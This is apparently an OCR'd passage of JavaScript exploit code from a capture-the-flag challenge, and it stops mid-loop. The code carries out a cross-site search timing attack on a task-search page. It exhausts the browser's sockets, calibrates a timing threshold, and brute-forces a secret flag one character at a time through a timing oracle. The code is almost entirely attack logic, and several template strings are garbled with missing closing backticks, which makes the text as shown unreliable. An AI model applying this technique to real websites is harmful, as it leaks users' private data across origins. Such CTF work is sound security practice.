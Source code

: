```
    return new Promise(async (r) => {
      popup.location = url
      // needed?
      await sleep(50)

      let val = await time_fetch()
      r(val)
    })
  }

  // const alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ-}!"#$%&\'()*+,-./:;<=>?@[\\]^|~{'.split('');
  const alphabet = "abcdefghijklmnopqrstuvwxyz}_".split("")
  // const alphabet = 'abcdef}'.split('');

  const oracle = async (search) => {
    let url = `https://carrot-${INSTANCE}.mc.ax/tasks?search=${search}
    let t = await timeit(url, WINBG)

    LOG = `${search}:${t}
    console.log(`${search}:${t})

    return t > TIMELIMIT
  }

  const brute = async (flag) => {
    for (const char of alphabet) {
      if (await oracle(flag + char)) {
        return char
      }
    }
    return false
  }

  const calibrate = async () => {
    return new Promise(async (r) => {
      // slow
      let url1 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=dice{
      let t1 = await timeit(url1, WINBG)
      console.log(`slow:${t1})
      // fast
      let url2 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=XXXXXXXXXX
      let t2 = await timeit(url2, WINBG)
      console.log(`fast:${t2})
      return r((t1 + t2) / 2)
    })
  }

  const exploit = async (flag = "") => {
    console.log("Starting")
    // dont go to fast plz :)
    console.log(`waiting 3s)
    await sleep(3000)
    // exaust sockets
    await exhaust_sockets()
    await sleep(2000)
    LOG = `Calibrating
    TIMELIMIT = await calibrate()
    LOG = `TIMELIMIT:${TIMELIMIT}
    console.log(`timelimit:${TIMELIMIT})
    await sleep(2000)
    let last
    while (true) {
```